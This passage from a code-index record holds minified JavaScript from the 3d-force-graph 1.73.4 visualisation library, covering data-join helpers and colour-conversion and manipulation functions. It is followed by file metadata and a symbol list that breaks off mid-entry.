i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||$h(t,e)||function(){throw new TypeError(\"Invalid attempt to destructure non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function Kh(t){return function(t){if(Array.isArray(t))return qh(t)}(t)||function(t){if(\"undefined\"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t[\"@@iterator\"])return Array.from(t)}(t)||$h(t)||function(){throw new TypeError(\"Invalid attempt to spread non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function Zh(t){var e=function(t,e){if(\"object\"!=typeof t||!t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e);if(\"object\"!=typeof i)return i;throw new TypeError(\"@@toPrimitive must return a primitive value.\")}return String(t)}(t,\"string\");return\"symbol\"==typeof e?e:e+\"\"}function $h(t,e){if(t){if(\"string\"==typeof t)return qh(t,e);var n={}.toString.call(t).slice(8,-1);return\"Object\"===n&&t.constructor&&(n=t.constructor.name),\"Map\"===n||\"Set\"===n?Array.from(t):\"Arguments\"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n)?qh(t,e):void 0}}var Jh=function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:[],e=arguments.length>1&&void 0!==arguments[1]?arguments[1]:[],n=!(arguments.length>2&&void 0!==arguments[2])||arguments[2],i=arguments.length>3&&void 0!==arguments[3]&&arguments[3],r=(e instanceof Array?e.length?e:[void 0]:[e]).map((function(t){return{keyAccessor:t,isProp:!(t instanceof Function)}})),a=t.reduce((function(t,e){var i=t,a=e;return r.forEach((function(t,e){var o,s=t.keyAccessor;if(t.isProp){var l=a,c=l[s],h=function(t,e){if(null==t)return{};var n,i,r=function(t,e){if(null==t)return{};var n={};for(var i in t)if({}.hasOwnProperty.call(t,i)){if(e.includes(i))continue;n[i]=t[i]}return n}(t,e);if(Object.getOwnPropertySymbols){var a=Object.getOwnPropertySymbols(t);for(i=0;i<a.length;i++)n=a[i],e.includes(n)||{}.propertyIsEnumerable.call(t,n)&&(r[n]=t[n])}return r}(l,[s].map(Zh));o=c,a=h}else o=s(a,e);e+1<r.length?(i.hasOwnProperty(o)||(i[o]={}),i=i[o]):n?(i.hasOwnProperty(o)||(i[o]=[]),i[o].push(a)):i[o]=a})),t}),{});n instanceof Function&&function t(e){var i=arguments.length>1&&void 0!==arguments[1]?arguments[1]:1;i===r.length?Object.keys(e).forEach((function(t){return e[t]=n(e[t])})):Object.values(e).forEach((function(e){return t(e,i+1)}))}(a);var o=a;return i&&(o=[],function t(e){var n=arguments.length>1&&void 0!==arguments[1]?arguments[1]:[];n.length===r.length?o.push({keys:n,vals:e}):Object.entries(e).forEach((function(e){var i=Yh(e,2),r=i[0],a=i[1];return t(a,[].concat(Kh(n),[r]))}))}(a),e instanceof Array&&0===e.length&&1===o.length&&(o[0].keys=[])),o};function Qh(t,e){var n=Object.keys(t);if(Object.getOwnPropertySymbols){var i=Object.getOwnPropertySymbols(t);e&&(i=i.filter((function(e){return Object.getOwnPropertyDescriptor(t,e).enumerable}))),n.push.apply(n,i)}return n}function tu(t,e,n){return(e=function(t){var e=function(t,e){if(\"object\"!=typeof t||null===t)return t;var n=t[Symbol.toPrimitive];if(void 0!==n){var i=n.call(t,e||\"default\");if(\"object\"!=typeof i)return i;throw new TypeError(\"@@toPrimitive must return a primitive value.\")}return(\"string\"===e?String:Number)(t)}(t,\"string\");return\"symbol\"==typeof e?e:String(e)}(e))in t?Object.defineProperty(t,e,{value:n,enumerable:!0,configurable:!0,writable:!0}):t[e]=n,t}function eu(t,e){if(null==t)return{};var n,i,r=function(t,e){if(null==t)return{};var n,i,r={},a=Object.keys(t);for(i=0;i<a.length;i++)n=a[i],e.indexOf(n)>=0||(r[n]=t[n]);return r}(t,e);if(Object.getOwnPropertySymbols){var a=Object.getOwnPropertySymbols(t);for(i=0;i<a.length;i++)n=a[i],e.indexOf(n)>=0||Object.prototype.propertyIsEnumerable.call(t,n)&&(r[n]=t[n])}return r}function nu(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:\"undefined\"!=typeof Symbol&&t[Symbol.iterator]||t[\"@@iterator\"];if(null!=n){var i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||ru(t,e)||function(){throw new TypeError(\"Invalid attempt to destructure non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function iu(t){return function(t){if(Array.isArray(t))return au(t)}(t)||function(t){if(\"undefined\"!=typeof Symbol&&null!=t[Symbol.iterator]||null!=t[\"@@iterator\"])return Array.from(t)}(t)||ru(t)||function(){throw new TypeError(\"Invalid attempt to spread non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function ru(t,e){if(t){if(\"string\"==typeof t)return au(t,e);var n=Object.prototype.toString.call(t).slice(8,-1);return\"Object\"===n&&t.constructor&&(n=t.constructor.name),\"Map\"===n||\"Set\"===n?Array.from(t):\"Arguments\"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n)?au(t,e):void 0}}function au(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=new Array(e);n<e;n++)i[n]=t[n];return i}var ou=[\"createObj\",\"updateObj\",\"exitObj\",\"objBindAttr\",\"dataBindAttr\"];function su(t,e,n){var i=n.objBindAttr,r=void 0===i?\"__obj\":i,a=n.dataBindAttr,o=void 0===a?\"__data\":a,s=n.idAccessor,l=n.purge,c=void 0!==l&&l,h=function(t){return t.hasOwnProperty(o)},u=e.filter((function(t){return!h(t)})),d=e.filter(h).map((function(t){return t[o]})),p=c?{enter:t,exit:d,update:[]}:function(t,e,n){var i={enter:[],update:[],exit:[]};if(n){var r=Jh(t,n,!1),a=Jh(e,n,!1),o=Object.assign({},r,a);Object.entries(o).forEach((function(t){var e=nu(t,2),n=e[0],o=e[1],s=r.hasOwnProperty(n)?a.hasOwnProperty(n)?\"update\":\"exit\":\"enter\";i[s].push(\"update\"===s?[r[n],a[n]]:o)}))}else{var s=new Set(t),l=new Set(e);new Set([].concat(iu(s),iu(l))).forEach((function(t){var e=s.has(t)?l.has(t)?\"update\":\"exit\":\"enter\";i[e].push(\"update\"===e?[t,t]:t)}))}return i}(d,t,s);return p.update=p.update.map((function(t){var e=nu(t,2),n=e[0],i=e[1];return n!==i&&(i[r]=n[r],i[r][o]=i),i})),p.exit=p.exit.concat(u.map((function(t){return tu({},r,t)}))),p}function lu(t,e,n,i,r){var a=r.createObj,o=void 0===a?function(t){return{}}:a,s=r.updateObj,l=void 0===s?function(t,e){}:s,c=r.exitObj,h=void 0===c?function(t){}:c,u=r.objBindAttr,d=void 0===u?\"__obj\":u,p=r.dataBindAttr,f=void 0===p?\"__data\":p,m=eu(r,ou),g=su(t,e,function(t){for(var e=1;e<arguments.length;e++){var n=null!=arguments[e]?arguments[e]:{};e%2?Qh(Object(n),!0).forEach((function(e){tu(t,e,n[e])})):Object.getOwnPropertyDescriptors?Object.defineProperties(t,Object.getOwnPropertyDescriptors(n)):Qh(Object(n)).forEach((function(e){Object.defineProperty(t,e,Object.getOwnPropertyDescriptor(n,e))}))}return t}({objBindAttr:d,dataBindAttr:f},m)),_=g.enter,v=g.update;g.exit.forEach((function(t){var e=t[d];delete t[d],h(e),i(e)}));var y=function(t){var e=[];return t.forEach((function(t){var n=o(t);n&&(n[f]=t,t[d]=n,e.push(n))})),e}(_);!function(t){t.forEach((function(t){var e=t[d];e&&(e[f]=t,l(e,t))}))}([].concat(iu(_),iu(v))),y.forEach(n)}function cu(t,e){switch(arguments.length){case 0:break;case 1:this.range(t);break;default:this.range(e).domain(t)}return this}const hu=Symbol(\"implicit\");var uu=function(t){for(var e=t.length/6|0,n=new Array(e),i=0;i<e;)n[i]=\"#\"+t.slice(6*i,6*++i);return n}(\"a6cee31f78b4b2df8a33a02cfb9a99e31a1cfdbf6fff7f00cab2d66a3d9affff99b15928\");function du(t){return du=\"function\"==typeof Symbol&&\"symbol\"==typeof Symbol.iterator?function(t){return typeof t}:function(t){return t&&\"function\"==typeof Symbol&&t.constructor===Symbol&&t!==Symbol.prototype?\"symbol\":typeof t},du(t)}var pu=/^\\s+/,fu=/\\s+$/;function mu(t,e){if(e=e||{},(t=t||\"\")instanceof mu)return t;if(!(this instanceof mu))return new mu(t,e);var n=function(t){var e={r:0,g:0,b:0},n=1,i=null,r=null,a=null,o=!1,s=!1;\"string\"==typeof t&&(t=function(t){t=t.replace(pu,\"\").replace(fu,\"\").toLowerCase();var e,n=!1;if(Du[t])t=Du[t],n=!0;else if(\"transparent\"==t)return{r:0,g:0,b:0,a:0,format:\"name\"};if(e=Wu.rgb.exec(t))return{r:e[1],g:e[2],b:e[3]};if(e=Wu.rgba.exec(t))return{r:e[1],g:e[2],b:e[3],a:e[4]};if(e=Wu.hsl.exec(t))return{h:e[1],s:e[2],l:e[3]};if(e=Wu.hsla.exec(t))return{h:e[1],s:e[2],l:e[3],a:e[4]};if(e=Wu.hsv.exec(t))return{h:e[1],s:e[2],v:e[3]};if(e=Wu.hsva.exec(t))return{h:e[1],s:e[2],v:e[3],a:e[4]};if(e=Wu.hex8.exec(t))return{r:Fu(e[1]),g:Fu(e[2]),b:Fu(e[3]),a:Hu(e[4]),format:n?\"name\":\"hex8\"};if(e=Wu.hex6.exec(t))return{r:Fu(e[1]),g:Fu(e[2]),b:Fu(e[3]),format:n?\"name\":\"hex\"};if(e=Wu.hex4.exec(t))return{r:Fu(e[1]+\"\"+e[1]),g:Fu(e[2]+\"\"+e[2]),b:Fu(e[3]+\"\"+e[3]),a:Hu(e[4]+\"\"+e[4]),format:n?\"name\":\"hex8\"};if(e=Wu.hex3.exec(t))return{r:Fu(e[1]+\"\"+e[1]),g:Fu(e[2]+\"\"+e[2]),b:Fu(e[3]+\"\"+e[3]),format:n?\"name\":\"hex\"};return!1}(t));\"object\"==du(t)&&(Xu(t.r)&&Xu(t.g)&&Xu(t.b)?(l=t.r,c=t.g,h=t.b,e={r:255*Uu(l,255),g:255*Uu(c,255),b:255*Uu(h,255)},o=!0,s=\"%\"===String(t.r).substr(-1)?\"prgb\":\"rgb\"):Xu(t.h)&&Xu(t.s)&&Xu(t.v)?(i=zu(t.s),r=zu(t.v),e=function(t,e,n){t=6*Uu(t,360),e=Uu(e,100),n=Uu(n,100);var i=Math.floor(t),r=t-i,a=n*(1-e),o=n*(1-r*e),s=n*(1-(1-r)*e),l=i%6,c=[n,o,a,a,s,n][l],h=[s,n,n,o,a,a][l],u=[a,a,s,n,n,o][l];return{r:255*c,g:255*h,b:255*u}}(t.h,i,r),o=!0,s=\"hsv\"):Xu(t.h)&&Xu(t.s)&&Xu(t.l)&&(i=zu(t.s),a=zu(t.l),e=function(t,e,n){var i,r,a;function o(t,e,n){return n<0&&(n+=1),n>1&&(n-=1),n<1/6?t+6*(e-t)*n:n<.5?e:n<2/3?t+(e-t)*(2/3-n)*6:t}if(t=Uu(t,360),e=Uu(e,100),n=Uu(n,100),0===e)i=r=a=n;else{var s=n<.5?n*(1+e):n+e-n*e,l=2*n-s;i=o(l,s,t+1/3),r=o(l,s,t),a=o(l,s,t-1/3)}return{r:255*i,g:255*r,b:255*a}}(t.h,i,a),o=!0,s=\"hsl\"),t.hasOwnProperty(\"a\")&&(n=t.a));var l,c,h;return n=Ou(n),{ok:o,format:t.format||s,r:Math.min(255,Math.max(e.r,0)),g:Math.min(255,Math.max(e.g,0)),b:Math.min(255,Math.max(e.b,0)),a:n}}(t);this._originalInput=t,this._r=n.r,this._g=n.g,this._b=n.b,this._a=n.a,this._roundA=Math.round(100*this._a)/100,this._format=e.format||n.format,this._gradientType=e.gradientType,this._r<1&&(this._r=Math.round(this._r)),this._g<1&&(this._g=Math.round(this._g)),this._b<1&&(this._b=Math.round(this._b)),this._ok=n.ok}function gu(t,e,n){t=Uu(t,255),e=Uu(e,255),n=Uu(n,255);var i,r,a=Math.max(t,e,n),o=Math.min(t,e,n),s=(a+o)/2;if(a==o)i=r=0;else{var l=a-o;switch(r=s>.5?l/(2-a-o):l/(a+o),a){case t:i=(e-n)/l+(e<n?6:0);break;case e:i=(n-t)/l+2;break;case n:i=(t-e)/l+4}i/=6}return{h:i,s:r,l:s}}function _u(t,e,n){t=Uu(t,255),e=Uu(e,255),n=Uu(n,255);var i,r,a=Math.max(t,e,n),o=Math.min(t,e,n),s=a,l=a-o;if(r=0===a?0:l/a,a==o)i=0;else{switch(a){case t:i=(e-n)/l+(e<n?6:0);break;case e:i=(n-t)/l+2;break;case n:i=(t-e)/l+4}i/=6}return{h:i,s:r,v:s}}function vu(t,e,n,i){var r=[ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16))];return i&&r[0].charAt(0)==r[0].charAt(1)&&r[1].charAt(0)==r[1].charAt(1)&&r[2].charAt(0)==r[2].charAt(1)?r[0].charAt(0)+r[1].charAt(0)+r[2].charAt(0):r.join(\"\")}function yu(t,e,n,i){return[ku(Bu(i)),ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16))].join(\"\")}function xu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.s-=e/100,n.s=Nu(n.s),mu(n)}function bu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.s+=e/100,n.s=Nu(n.s),mu(n)}function Mu(t){return mu(t).desaturate(100)}function Su(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.l+=e/100,n.l=Nu(n.l),mu(n)}function Eu(t,e){e=0===e?0:e||10;var n=mu(t).toRgb();return n.r=Math.max(0,Math.min(255,n.r-Math.round(-e/100*255))),n.g=Math.max(0,Math.min(255,n.g-Math.round(-e/100*255))),n.b=Math.max(0,Math.min(255,n.b-Math.round(-e/100*255))),mu(n)}function wu(t,e){e=0===e?0:e||10;var n=mu(t).toHsl();return n.l-=e/100,n.l=Nu(n.l),mu(n)}function Tu(t,e){var n=mu(t).toHsl(),i=(n.h+e)%360;return n.h=i<0?360+i:i,mu(n)}function Au(t){var e=mu(t).toHsl();return e.h=(e.h+180)%360,mu(e)}function Cu(t,e){if(isNaN(e)||e<=0)throw new Error(\"Argument to polyad must be a positive number\");for(var n=mu(t).toHsl(),i=[mu(t)],r=360/e,a=1;a<e;a++)i.push(mu({h:(n.h+a*r)%360,s:n.s,l:n.l}));return i}function Ru(t){var e=mu(t).toHsl(),n=e.h;return[mu(t),mu({h:(n+72)%360,s:e.s,l:e.l}),mu({h:(n+216)%360,s:e.s,l:e.l})]}function Pu(t,e,n){e=e||6,n=n||30;var i=mu(t).toHsl(),r=360/n,a=[mu(t)];for(i.h=(i.h-(r*e>>1)+720)%360;--e;)i.h=(i.h+r)%360,a.push(mu(i));return a}function Lu(t,e){e=e||6;for(var n=mu(t).toHsv(),i=n.h,r=n.s,a=n.v,o=[],s=1/e;e--;)o.push(mu({h:i,s:r,v:a})),a=(a+s)%1;return o}mu.prototype={isDark:function(){return this.getBrightness()<128},isLight:function(){return!this.isDark()},isValid:function(){return this._ok},getOriginalInput:function(){return this._originalInput},getFormat:function(){return this._format},getAlpha:function(){return this._a},getBrightness:function(){var t=this.toRgb();return(299*t.r+587*t.g+114*t.b)/1e3},getLuminance:function(){var t,e,n,i=this.toRgb();return t=i.r/255,e=i.g/255,n=i.b/255,.2126*(t<=.03928?t/12.92:Math.pow((t+.055)/1.055,2.4))+.7152*(e<=.03928?e/12.92:Math.pow((e+.055)/1.055,2.4))+.0722*(n<=.03928?n/12.92:Math.pow((n+.055)/1.055,2.4))},setAlpha:function(t){return this._a=Ou(t),this._roundA=Math.round(100*this._a)/100,this},toHsv:function(){var t=_u(this._r,this._g,this._b);return{h:360*t.h,s:t.s,v:t.v,a:this._a}},toHsvString:function(){var t=_u(this._r,this._g,this._b),e=Math.round(360*t.h),n=Math.round(100*t.s),i=Math.round(100*t.v);return 1==this._a?\"hsv(\"+e+\", \"+n+\"%, \"+i+\"%)\":\"hsva(\"+e+\", \"+n+\"%, \"+i+\"%, \"+this._roundA+\")\"},toHsl:function(){var t=gu(this._r,this._g,this._b);return{h:360*t.h,s:t.s,l:t.l,a:this._a}},toHslString:function(){var t=gu(this._r,this._g,this._b),e=Math.round(360*t.h),n=Math.round(100*t.s),i=Math.round(100*t.l);return 1==this._a?\"hsl(\"+e+\", \"+n+\"%, \"+i+\"%)\":\"hsla(\"+e+\", \"+n+\"%, \"+i+\"%, \"+this._roundA+\")\"},toHex:function(t){return vu(this._r,this._g,this._b,t)},toHexString:function(t){return\"#\"+this.toHex(t)},toHex8:function(t){return function(t,e,n,i,r){var a=[ku(Math.round(t).toString(16)),ku(Math.round(e).toString(16)),ku(Math.round(n).toString(16)),ku(Bu(i))];if(r&&a[0].charAt(0)==a[0].charAt(1)&&a[1].charAt(0)==a[1].charAt(1)&&a[2].charAt(0)==a[2].charAt(1)&&a[3].charAt(0)==a[3].charAt(1))return a[0].charAt(0)+a[1].charAt(0)+a[2].charAt(0)+a[3].charAt(0);return a.join(\"\")}(this._r,this._g,this._b,this._a,t)},toHex8String:function(t){return\"#\"+this.toHex8(t)},toRgb:function(){return{r:Math.round(this._r),g:Math.round(this._g),b:Math.round(this._b),a:this._a}},toRgbString:function(){return 1==this._a?\"rgb(\"+Math.round(this._r)+\", \"+Math.round(this._g)+\", \"+Math.round(this._b)+\")\":\"rgba(\"+Math.round(this._r)+\", \"+Math.round(this._g)+\", \"+Math.round(this._b)+\", \"+this._roundA+\")\"},toPercentageRgb:function(){return{r:Math.round(100*Uu(this._r,255))+\"%\",g:Math.round(100*Uu(this._g,255))+\"%\",b:Math.round(100*Uu(this._b,255))+\"%\",a:this._a}},toPercentageRgbString:function(){return 1==this._a?\"rgb(\"+Math.round(100*Uu(this._r,255))+\"%, \"+Math.round(100*Uu(this._g,255))+\"%, \"+Math.round(100*Uu(this._b,255))+\"%)\":\"rgba(\"+Math.round(100*Uu(this._r,255))+\"%, \"+Math.round(100*Uu(this._g,255))+\"%, \"+Math.round(100*Uu(this._b,255))+\"%, \"+this._roundA+\")\"},toName:function(){return 0===this._a?\"transparent\":!(this._a<1)&&(Iu[vu(this._r,this._g,this._b,!0)]||!1)},toFilter:function(t){var e=\"#\"+yu(this._r,this._g,this._b,this._a),n=e,i=this._gradientType?\"GradientType = 1, \":\"\";if(t){var r=mu(t);n=\"#\"+yu(r._r,r._g,r._b,r._a)}return\"progid:DXImageTransform.Microsoft.gradient(\"+i+\"startColorstr=\"+e+\",endColorstr=\"+n+\")\"},toString:function(t){var e=!!t;t=t||this._format;var n=!1,i=this._a<1&&this._a>=0;return e||!i||\"hex\"!==t&&\"hex6\"!==t&&\"hex3\"!==t&&\"hex4\"!==t&&\"hex8\"!==t&&\"name\"!==t?(\"rgb\"===t&&(n=this.toRgbString()),\"prgb\"===t&&(n=this.toPercentageRgbString()),\"hex\"!==t&&\"hex6\"!==t||(n=this.toHexString()),\"hex3\"===t&&(n=this.toHexString(!0)),\"hex4\"===t&&(n=this.toHex8String(!0)),\"hex8\"===t&&(n=this.toHex8String()),\"name\"===t&&(n=this.toName()),\"hsl\"===t&&(n=this.toHslString()),\"hsv\"===t&&(n=this.toHsvString()),n||this.toHexString()):\"name\"===t&&0===this._a?this.toName():this.toRgbString()},clone:function(){return mu(this.toString())},_applyModification:function(t,e){var n=t.apply(null,[this].concat([].slice.call(e)));return this._r=n._r,this._g=n._g,this._b=n._b,this.setAlpha(n._a),this},lighten:function(){return this._applyModification(Su,arguments)},brighten:function(){return this._applyModification(Eu,arguments)},darken:function(){return this._applyModification(wu,arguments)},desaturate:function(){return this._applyModification(xu,arguments)},saturate:function(){return this._applyModification(bu,arguments)},greyscale:function(){return this._applyModification(Mu,arguments)},spin:function(){return this._applyModification(Tu,arguments)},_applyCombination:function(t,e){return t.apply(null,[this].concat([].slice.call(e)))},analogous:function(){return this._applyCombination(Pu,arguments)},complement:function(){return this._applyCombination(Au,arguments)},monochromatic:function(){return this._applyCombination(Lu,arguments)},splitcomplement:function(){return this._applyCombination(Ru,arguments)},triad:function(){return this._applyCombination(Cu,[3])},tetrad:function(){return this._applyCombination(Cu,[4])}},mu.fromRatio=function(t,e){if(\"object\"==du(t)){var n={};for(var i in t)t.hasOwnProperty(i)&&(n[i]=\"a\"===i?t[i]:zu(t[i]));t=n}return mu(t,e)},mu.equals=function(t,e){return!(!t||!e)&&mu(t).toRgbString()==mu(e).toRgbString()},mu.random=function(){return mu.fromRatio({r:Math.random(),g:Math.random(),b:Math.random()})},mu.mix=function(t,e,n){n=0===n?0:n||50;var i=mu(t).toRgb(),r=mu(e).toRgb(),a=n/100;return mu({r:(r.r-i.r)*a+i.r,g:(r.g-i.g)*a+i.g,b:(r.b-i.b)*a+i.b,a:(r.a-i.a)*a+i.a})},", "id": "static/js/3d-force-graph-1.73.4.min.js", "kind": "module", "label": "3d-force-graph-1.73.4.min.js", "language": "js", "sha256": "71d2908aa92eb9e2", "symbol_count": 176, "symbols": [{"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "is"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "newNode"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "update"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "insertBodies"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "insert"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "isSamePosition"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "updateBoundingBox"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "resetBoundingBox"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "t"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "that"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "signature"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "signature"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "signature"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "Te"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "t"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "c"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "t"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "t"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "Vr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "l"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "y"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "u"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "s"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "g"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "c"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "b"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "u"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "differentBody"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "coefficient"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "r"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "t"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "r"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "r"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "i"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "h"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "v"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "l"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "r"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "s"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "t"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "hh"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "s"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "a"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "Hh"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "Jh"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "e"}, {"doc": "Version 1.73.4 3d-force-graph - 